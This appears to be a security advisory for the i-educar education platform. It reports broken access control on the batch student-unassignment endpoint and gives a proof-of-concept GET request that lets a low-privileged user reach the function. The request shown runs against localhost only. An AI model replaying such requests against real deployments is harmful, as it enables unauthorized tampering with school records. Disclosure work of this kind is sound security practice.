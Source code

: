 Broken Access Control  in `/cancelar-enturmacao-em-lote/[ID]` Endpoint

---

## Summary

A **Broken Access Control** vulnerability was identified in the `/cancelar-enturmacao-em-lote/[ID]` endpoint of the _i-educar_ application. This vulnerability allows users without proper permissions to access restricted functionality, bypassing authorization checks.

---

## Details

**Vulnerable Endpoint:** `GET cancelar-enturmacao-em-lote/[ID]`  
**Authentication:** Required

The application fails to properly validate user permissions before granting access to this endpoint. As a result, even low-privileged users can successfully access the functionality intended only for .

---

## PoC

1. Authenticate as a non-privileged user.
![[Pasted image 20250821190942.png]]
![[Pasted image 20250821191019.png]]
    
2. Send the following request::

```
GET /cancelar-enturmacao-em-lote/15 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Referer: http://localhost/enturmacao-em-lote/15
Cookie: i_educar_session=ikrAPvWjSx0V5drm82zlgu1kBByJdsCx1gJkiwsu
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
```
    
3. We could observe that we have access to the page and to the function to batch unassign students from classes. And, this user, should not do that.

![[Pasted image 20250821195629.png]]

---

## Impact

Broken Access Control vulnerabilities can have severe consequences, including:

- Unauthorized access to restricted functionality
    
- Escalation of privileges for low-level users
    
- Exposure of sensitive data and potential system compromise
    
- Loss of confidentiality and integrity of educational records
    
- Reputational damage to the organization
    

---

## References

This vulnerability falls under **OWASP Top 10 - A01:2021 Broken Access Control**  
🔗 OWASP Documentation